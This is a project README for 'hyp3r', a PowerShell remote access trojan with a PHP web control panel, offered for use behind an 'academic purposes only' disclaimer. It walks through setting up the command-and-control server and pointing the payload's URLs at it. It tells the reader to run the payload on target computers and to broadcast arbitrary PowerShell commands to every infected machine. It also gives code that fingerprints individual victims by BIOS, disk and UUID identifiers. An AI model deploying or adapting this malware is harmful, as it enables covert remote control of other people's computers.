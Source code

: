 # hyp3r

<img src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

### hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
